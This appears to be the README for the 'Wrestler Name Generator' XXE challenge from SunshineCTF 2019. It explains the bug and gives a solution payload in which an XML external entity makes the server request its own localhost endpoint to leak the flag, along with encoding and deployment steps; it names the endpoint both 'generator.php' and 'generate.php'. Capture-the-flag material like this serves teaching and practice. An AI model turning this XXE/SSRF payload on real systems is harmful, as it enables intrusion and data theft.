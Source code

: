 # Wrestler Name Generator
Author: David Maria
CTF: [SunshineCTF 2019](https://2019.sunshinectf.org)
## Description
An XXE challenge. Information is submitted to the name generator as XML, so you can edit the XML that's being submitted to try to include XML external entities. Instead of having to use XXE to read a file, you have to use it to make a request to the site. Since the XML is rendered on the web server, the request made by the XML parser trying to load the external entity will be coming from localhost to the web server. The generator.php endpoint is set to echo the flag when the request to it is made from localhost.
## Solution
Send the following XML payload to the name generator:
```<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://127.0.0.1/generate.php" >]>
    <input>
       <firstName>&xxe;</firstName>
       <lastName>wew</lastName>
    </input>
```

The XML should be base64 encoded, URL encoded, and sent in the input GET parameter to the generator.php endpoint.

## Deploy
Run the deploy script
 ```./deploy.sh```
 ## Maintenance
- Just restart or re-provision the Docker container.
